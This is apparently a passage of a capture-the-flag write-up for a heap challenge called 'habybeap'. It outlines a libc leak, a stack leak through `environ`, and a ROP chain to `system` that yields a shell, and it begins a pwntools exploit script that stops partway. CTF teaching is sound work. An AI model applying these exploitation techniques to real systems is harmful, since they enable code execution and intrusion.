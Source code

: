 * Use Libc leak to get a read of the `environ` value in libc

    * This will have a pointer to the stack!

* Use the stack leak to get an allocation at the `main` saved `RIP` location, and put a ROP payload there

    * We can make a ret2libc (specifically to `system`) with all the information we've gathered!

* Choose the exit loop option in `main` to detonate our payload and get a shell B)


# Final Script

```python
#!/bin/env python3
from pwn import *

# CONFIG
DEBUG     = False
FILE 	  = "./habybeap"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6"

context.arch 	  = "amd64"
context.encoding  = "latin"
context.log_level = "debug" if (DEBUG) else "info"

warnings.simplefilter("ignore")


# CONSTANTS
AREANA_TO_LIBC_OFFSET = 0x219ce0
ENVIRON_TO_RIP_OFFSET = 0x120

# GLOBALS
elf = ELF(FILE)
rop = ROP(FILE)

libc 	= ELF(LIBC_PATH)
libcROP = ROP(LIBC_PATH)

p = process([FILE])

FREE_INDEX = 0


if (DEBUG):
	input(f"Attach to {p.pid} now!")


def choice(index):
	p.sendlineafter(b'Input your choice>> ', str(index).encode())


def addNote(big, data):
	global FREE_INDEX
	choice(1)
	p.sendlineafter(b'Input your index>> ', str(FREE_INDEX).encode())
	p.sendlineafter(b'for smol >> ', b'1' if (big) else b'0')
	p.sendafter(b'Input your data>> ', data)
	FREE_INDEX += 1


def editNote(index, data):
	if (len(data) > 6):
```